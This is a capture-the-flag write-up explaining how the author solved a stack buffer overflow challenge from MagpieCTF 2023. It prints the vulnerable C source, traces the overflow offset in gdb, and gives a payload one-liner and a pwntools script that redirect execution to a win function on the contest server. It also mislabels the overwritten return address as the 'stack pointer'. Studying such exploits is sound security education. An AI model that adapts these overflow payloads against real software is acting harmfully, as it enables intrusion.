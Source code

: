 # This outta be large enough right?

## Description

> Come in, B-Team,
>
> We've identified an OmniFlags service that seems to be running on a satelite somewhere. We were able to get a copy of the program, and we suspect that it may be exploitable for identifying a flag. See if you can find it.
>
> Over & out,\
> HQ\
>
>
> `nc srv1.2023.magpiectf.ca 6201`

## Too Small

We are given a `chall.c` source code file

```c
#include <stdio.h>
#include <stdlib.h>
__asm__(".symver realpath,realpath@GLIBC_2.0.5");
void win(){
    printf("Here is your flag:\n");
    exit(0);
}
void vuln(){
  char buf[56];
  gets(buf);
}
int main(){
  vuln();
  return 0;
}
```

Here we can see the program makes a call to `vuln()`, which creates a character buffer and takes in input to fill the buffer, then returns 0. It's clear that we want to call `win()` in order to get our flag, so how shall we do that?

The code implies a buffer overflow attack

{% hint style="info" %}
**Buffer Overflow** - Occurs when the volume of data exceeds the storage capacity of the memory buffer, which overruns the buffer's allocated memory and overwrites adjacent memory locations
{% endhint %}

In the code `chall.c` we can see a buffer of static size 56 allocated, called `buf`. User input is then placed inside this buffer with `gets(buf)`. However, what if the user input exceeds the size `buf` was allocated for? Then those values will be stored in the next slots of memory, after the locations that were allocated by `buf`, which may overwrite important information

One of these important pieces of information is the stack pointer, which points to the next instruction that the program should execute

Thus, our goal is

1. Overwrite the memory location the stack pointer is currently pointing to
2. Change it so it points at `win`
3. Profit.

First let's make the local executable `chall` executable by setting permissions

```
chmode +x chall
```

Then let's run it with gdb using `gdb chall`

First let's look into the functions of the file

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the `win` function is located at 0x08048486. Let's put a pin in that for now, and run the program with `run`

Now, for the user input we want to overflow `buf`. It doesn't matter what dummy values we use, so let's send in "A"'s until we get a segmentation fault. Since we know the buffer has size 56, let's try 100 "A"s first, which we can send in using inline Python code

```
run <<< $(python3 -c 'print("A"*100)')
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got a segmentation fault, as expected. However, what's notable is the `0x41414141 in ?? ()` response. This is telling us where the program is currently, when it received the segmentation fault, so the `0x41414141` is the stack pointer and `?? ()` is the function the program faulted at

If you have a good memory, you may recall none of the functions were even close to this location, and the function we ended at is unknown by the program

If you have a keen eye, you may notice that 0x41 is "A" in hexadecimal.

Putting these together, we can note that not only did we cause a segmentation fault, we also managed to overwrite the stack pointer with "AAAA"

Unfortunately, we want to overwrite the stack pointer with "08048486", the location of `win`, so let's try finding the precise number of "A"s to send such that we cause a segmentation fault, however we do not overwrite the stack pointer

To spare the painful details, this amounts to 68 "A"s

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>So close to greatness</p></figcaption></figure>

If you wanted to, doing 69 or more "A"s will cause 41 to seep into the stack pointer from the right. The reason why it comes in from the right is because it is in little endian

{% hint style="info" %}
**Little Endian** - The least sygnificant byte of the data is placed at the byte with the lowest address
{% endhint %}

So instead of 08 03 84 86 we get 86 84 04 08

We are now ready to overwrite the stack pointer with our desired location. Note that the payload needs to be in bytes, so it looks something like this

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")'
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption><p>We win!</p></figcaption></figure>

"Here is your flag:" is printed out, implying we successfully called `win`

## Let Me In

I tried to directly pipe in my Python payload into the netcat command

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")' | nc srv1.2023.magpiectf.ca 6201
```

Unfortunately, it didn't work as the program would just hang. I similarly tried to send the Python to a file `out` and pipe in `cat out | nc srv1.2023.magpiectf.ca 6201` which did not work either.

I had the correct payload, but I just couldn't send the payload in!

After a bout of frustration, I settled down and coded up a Python script to communicate with the server

```python
from pwn import *

address = 'srv1.2023.magpiectf.ca'
port = 6201
tcpsocket = remote(address, port)

payload = "A"*68 + "\x86\x84\x04\x08"

tcpsocket.sendline(payload.encode('latin-1'))
print('Sent: 0x' + binascii.hexlify(payload.encode('latin-1')).decode('latin-1'))

print((tcpsocket.recvline()).decode('latin-1')) # Receive line after string is entered
print((tcpsocket.recv()).decode('latin-1')) # Receive the flag
```

## Flag

`magpie{0mn1_fl4g_3v3rywh3r3}`
